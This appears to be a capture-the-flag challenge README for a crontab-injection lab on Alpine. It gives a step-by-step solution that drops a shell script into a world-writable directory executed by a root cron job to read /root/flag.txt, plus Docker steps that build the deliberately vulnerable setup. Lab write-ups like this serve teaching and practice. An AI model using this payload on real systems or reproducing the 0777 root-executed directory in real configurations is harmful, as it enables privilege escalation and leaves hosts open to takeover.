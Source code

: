 # Challenge 9 — Crontab Injection (Alpine)

## Description
Exploit a root cron job that blindly runs any executable dropped in **/var/cleanup**. Use it to read the protected flag at **/root/flag.txt**.

# Solution
1) **Open a shell in the container.**  
   ```bash
   docker exec -it challenge9 bash
   ```

2) **Read the breadcrumb.** The file explains there is a root cron task:  
   ```bash
   cat /home/ctfuser/NOTICE.txt
   ```

3) **Confirm the schedule and the script.**  
   ```bash
   cat /etc/crontabs/root
   cat /usr/local/bin/cleanup.sh
   ```

4) **Drop a payload into `/var/cleanup/`.** Make it executable.  
   ```bash
   cat > /var/cleanup/pwn.sh <<'EOF'
   #!/usr/bin/env bash
   cat /root/flag.txt > /tmp/flag.out
   chmod 644 /tmp/flag.out
   EOF
   chmod +x /var/cleanup/pwn.sh
   ```

5) **Wait up to one minute for cron to run.** Optional: watch the log.  
   ```bash
   tail -f /var/log/cleanup.log
   ```

6) **Read the flag.**  
   ```bash
   cat /tmp/flag.out
   ```

**Why this works:** the cron job runs as **root** and executes anything in a **world‑writable** directory. Your payload reads the flag and drops it in a location you can access.

# Recreating this challenge
Below is a high‑level outline (no build script needed).

1) **Base image:** `alpine:3.20`. Install Bash:  
   ```dockerfile
   RUN apk add --no-cache bash
   ```

2) **User:** create a non‑root player:  
   ```dockerfile
   RUN adduser -D -s /bin/bash ctfuser
   ```

3) **Flag:** copy to `/root/flag.txt` and restrict:  
   ```dockerfile
   COPY flag.txt /root/flag.txt
   RUN chmod 600 /root/flag.txt
   ```

4) **Vulnerable cleanup:** a root script that executes any executable under `/var/cleanup/`:  
   ```dockerfile
   COPY cleanup.sh /usr/local/bin/cleanup.sh
   RUN chmod 755 /usr/local/bin/cleanup.sh        && mkdir -p /var/cleanup /var/log        && chmod 0777 /var/cleanup
   ```

5) **Breadcrumb:** place a short notice for players:  
   ```dockerfile
   COPY NOTICE.txt /home/ctfuser/NOTICE.txt
   RUN chown -R ctfuser:ctfuser /home/ctfuser
   ```

6) **Cron schedule (Alpine style):** write to `/etc/crontabs/root`:  
   ```dockerfile
   RUN echo '* * * * * /bin/bash /usr/local/bin/cleanup.sh >> /var/log/cleanup.log 2>&1' > /etc/crontabs/root
   ```

7) **Keep cron running and keep the container alive:** **BusyBox crond must be pointed at `/etc/crontabs`**.  
   ```dockerfile
   CMD ["/bin/bash","-lc","/usr/sbin/crond -l 8 -c /etc/crontabs; tail -f /dev/null"]
   ```

8) **Build & run (example commands):**
   ```bash
   docker build -t challenge9:latest .
   docker run -d --name challenge9 challenge9:latest      /bin/bash -lc "/usr/sbin/crond -l 8 -c /etc/crontabs; tail -f /dev/null"
   ```

**Notes / fixes:**  
- Alpine’s cron uses `/etc/crontabs/root`, not `/etc/crontab` (Debian style). Use `crond -c /etc/crontabs`.  
- Bash isn’t installed by default on Alpine; install it so the scripts work.  
- The container stays up with `tail -f /dev/null`, so players have time to solve.

---

**Validation:** `solve.sh` is for validation only. Players should solve it manually using the steps above.
